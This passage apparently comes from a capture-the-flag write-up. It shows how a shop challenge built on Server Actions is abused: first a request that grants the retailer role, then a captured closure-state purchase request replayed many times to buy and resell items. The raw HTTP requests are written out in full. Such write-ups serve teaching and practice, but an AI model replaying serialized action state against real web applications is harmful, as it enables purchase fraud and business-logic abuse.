 ### Path 3 - State desynchronization through closures

Unfortunately, I did not know of the method of binding Server Actions as shown in the exploits and requests above. Instead, I focused on exploiting the buy/sell functionality after successfully registering a user and setting the user's retailer role.

In the request shown below, we basically call `makeRetailer()`.

```
POST / HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 182

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_ID_758c88ac2c11c3f9c5eac5df2912014fc02de432"


------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```

After that, with the idea of closures we had discussed above about how the state is serialized and saved in the requests itself. We can buy the `Fun` item and then replay the same request at least 26 times for the necessary items we could resell.

```
POST / HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Cookie: token=344e1360bd35ec2f26fcf058950d27d6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 858

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:1"

["$@2"]
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"9337c109f875b15e8546173b9d015d3123b9728c","bound":"$@1"}
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:2"

"12wBRqePUMo/+f7x2mV3ihIJ/a6k5k2B5z0VTQHt8UrAYMwwV7iMngSRK4SQHC7nEGRqFCnIJj+SqqENKz0AD1g9mMP2p4vIXU7vZLhYws4en88FdxAMLfSlAtRofz5prCbpfUVKUoMsYV78AA3y5YoIIjr5NmelPAfl1FD6DLx+zWwjy39McbcH9ON8+OdUbijPVKDHz/fHABeGz1yVV5zBOSpJKwZcnPaAXGs16DaiD3rH9IkgabM34v0OI80hlp+E4wapntsDJbcHF8ZRfrPWglO2AJ5IXmqnRkybPPCQF9wezVgW3JDbcPejHcAU4MuGOLUnrisTPM6jpt3GPGPbyLM="
------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```
